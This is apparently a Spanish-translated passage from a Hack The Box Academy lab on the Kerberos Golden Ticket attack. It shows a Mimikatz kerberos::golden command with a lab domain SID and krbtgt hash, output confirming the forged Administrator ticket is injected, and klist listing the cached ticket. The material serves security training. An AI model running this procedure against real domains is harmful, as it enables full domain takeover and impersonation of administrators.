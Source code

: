Boleto dorado

```
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session

```

![](https://academy.hackthebox.com/storage/modules/176/A8/kerbTicket.png)

La salida muestra que`Mimikatz`inyectado el boleto en la sesión actual, y podemos verificarlo ejecutando el comando`klist`(Después de salir de`Mimikatz`):

Boleto dorado

```
mimikatz # exit

Bye!

C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

```
